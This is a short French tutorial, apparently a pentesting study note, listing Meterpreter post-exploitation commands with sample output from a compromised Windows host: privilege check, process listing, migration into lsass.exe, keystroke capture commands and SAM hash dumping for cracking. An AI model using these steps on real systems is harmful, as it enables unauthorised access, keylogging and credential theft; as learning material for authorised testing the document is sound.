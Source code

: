 
Une fois qu'on a pu acceder à la machine ciblé meterpreter nous offre beaucoup de commande.

## __Help__

Pour avoir la liste des commandes accessibles.

```shell
meterpreter > help

Core Commands 
============= 

	Command           Description
	-------           -----------
	?                 Help menu 
	background        Backgrounds the current session 
	bg                Alias for background
	bgkill            Kills a background meterpreter script 
	bglist            Lists running background scripts
	bgrun             Executes a meterpreter script as a background thread
	channel           Displays information or control active channels
	close             Closes a channel[...]
```


## __Getuid__

Pour récupérer le nom de l'utilisateur actuel.

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```


## __Ps__

Pour lister tout les processus en cours.

```shell
meterpreter > ps 

Process List 
============ 

PID   PPID  Name              Arch Session User                           Path
---   ----  ----              ---- ------- ----                           ---- 
0     0     [System Process]
4     0     System            x64   0 
396   644   LogonUI.exe       x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\LogonUI.exe 
416   4     smss.exe          x64   0      NT AUTHORITY\SYSTEM            \SystemRoot\System32\smss.exe 
428   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
548   540   csrss.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe 
596   540   wininit.exe       x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\wininit.exe
604   588   csrss.exe         x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe
644   588   winlogon.exe      x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\winlogon.exe 
692   596   services.exe      x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\services.exe
700   692   sppsvc.exe        x64   0      NT AUTHORITY\NETWORK SERVICE 
716   596   lsass.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsass.exe
724   596   lsm.exe           x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsm.exe 
764   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM  
828   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
864   828   WmiPrvSE.exe   
900   692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE 
952   692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1076  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1164  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1168  692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE
1244  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1276  1304  cmd.exe           x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe 
1304  692   spoolsv.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
1340  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1388  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]
```


## __Migrate__

On peut migrer meterpreter vers un autre processus pour mieux interagir avec. Par exemple si on voit un logiciel de traitement de texte comme word.exe ou notepad.exe, on peut capturer les entrées clavier avec `keyscan_start`, `keyscan_stop` et `keyscan_dump`.

```shell
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully. 
meterpreter >
```


## __Hashdump__

Pour récupérer les mots de passes de la db SAM (Security Account Manager), ils sont stocké au format NTLM ( New Technology LAN Manager ).  On peut les déchiffrer grâce à des db comme [CrackStation](https://crackstation.net/).